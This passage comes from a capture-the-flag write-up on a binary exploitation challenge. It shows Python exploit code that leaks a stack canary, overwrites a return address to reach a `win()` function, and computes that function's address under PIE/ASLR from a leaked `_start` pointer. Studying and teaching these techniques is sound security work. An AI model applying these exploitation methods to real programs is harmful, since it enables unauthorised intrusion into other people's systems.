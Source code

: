 We then use this arbitrary read to leak our stack canary, then replace our padding bytes with the canary value so that the canary won’t get overwritten

```python
io = start()

canary_value = read_local_value(8)
win_addr = exe.symbols['win']

for _ in range((0x98 // 8)):
    write_bytes(canary_value)

write_bytes(win_addr)
write_bytes(1337)

io.interactive()
```

Then we run it, and find that there’s no more stack smashing error, but we still don’t get a shell

```
$ python soln.py LOCAL
...
[*] Switching to interactive mode
wow! you win!
[*] Got EOF while reading in interactive
```

### Bypassing ASLR

We take a look at the protections again, and realize that PIE is set, meaning that the address of our `win()` function will change every run, and we will have to leak an address to know where it is. We run the process in our preferred debugger, and take a look at the stack to see if there are any good addresses we can use.

We see that the uninitialized stack value at `rbp-0x18` points to the address of `_start()` (before we do the buffer overflow). 

![Figure 3](./images/figure3.png)

This value will be in the same page as `win()`, so we can use it to derive its address

```python
start_addr = read_local_value(0x18)

win_addr = (start_addr & 0xfffffffffffff000) | (exe.symbols['win'] & 0xfff)
```
